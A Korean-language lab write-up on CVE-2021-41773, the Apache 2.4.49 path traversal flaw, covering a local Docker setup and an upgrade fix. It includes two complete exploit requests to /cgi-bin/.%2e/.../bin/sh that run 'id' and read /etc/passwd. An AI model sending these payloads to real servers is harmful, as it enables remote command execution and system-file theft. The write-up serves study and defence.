





# CVE-2021-41773

Contributors
- 박윤하(@Park123r)

## Apache HTTP Server 경로 탐색 및 RCE

이 취약점은 Apache HTTP Server 버전 2.4.49가 출시되면서 경로 정규화 설정 변경 사항에서 취약점이 발견되었다. 

공격자는 경로 탐색 공격을 사용하여 디렉터리 외부의 파일에 URL을 매핑 할 수 있다.

디렉터리 외부에 있는 파일이 일반적인 기본 구성인 “require all denied” 으로 보호되지 않고 CGI 스크립트가 활성화된 경우 원격 코드 실행이 허용 될 수 있다.

- CGI(Common Gateway Interface, 공용 게이트웨이 인터페이스)

정적인 웹 서버가 파이썬, C언어, 셸 스크립트 같은 외부 프로그램과 대화할 수 있도록 이어주는 통로 

### 참고 자료

https://socprime.com/ko/blog/detect-cve-2021-41773-path-traversal-zero-day-in-apache-http-server/

https://www.picussecurity.com/resource/blog/simulate-apache-cve-2021-41773-exploits-vulnerability

https://httpd.apache.org/security/vulnerabilities_24.html

### 환경 설정

```c
docerk compuse up -d
```

환경 구축이 끝나면 http://localhost:8080 으로 Apache HTTP Server 버전 2.4.49 버전에 접속할 수 있다. 

```c
docker ps
```

컨테이너 상태를 확인하다.



### 취약점 실습

BurpSuite의 브라우저를 사용하여 서버에 접속해 패킷을 수집한다.



```json
POST /cgi-bin/.%2e/.%2e/.%2e/.%2e/bin/sh HTTP/1.1
Host: localhost:8080
Cache-Control: max-age=0
sec-ch-ua: "Not(A:Brand";v="24", "Chromium";v="122"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 1.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/122.0.6261.112 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate, br
Accept-Language: ko-KR,ko;q=0.9,en-US;q=0.8,en;q=0.7
If-None-Match: "2d-432a5e4a73a80"
If-Modified-Since: Mon, 11 Jun 2007 18:53:14 GMT
Connection: close
Content-Length: 8

echo; id
```




요청 패킷을 POST 메소드로 변경하고 특정 경로와 Body 값을 삽입 후 전송한다. 

id 명령어를 사용했다. 

Request 로 id를 받아 Response 로 uid=1(daemon) gid=1(daemon)… 권한이 출력되었다.

```json
POST /cgi-bin/.%2e/.%2e/.%2e/.%2e/bin/sh HTTP/1.1
Host: localhost:8080
Cache-Control: max-age=0
sec-ch-ua: "Not(A:Brand";v="24", "Chromium";v="122"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/122.0.6261.112 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate, br
Accept-Language: ko-KR,ko;q=0.9,en-US;q=0.8,en;q=0.7
If-None-Match: "2d-432a5e4a73a80"
If-Modified-Since: Mon, 11 Jun 2007 18:53:14 GMT
Connection: close
Content-Length: 21

echo; cat /etc/passwd
```




실행 권한 damon으로 시스템 내부 파일인 /etc/passwd 를 출력하는데 성공하였다.

### 환경 종료

```json
docker compose down
```

### 대응 방안

- Apache 2.4.49 및 Apache 2.4.50 버전에만 영향을 끼치기 때문에 Apache 2.4.51 버전 이상을 사용한다.

다른 깨끗한 PC 환경에서 동작하는지 확인 완료

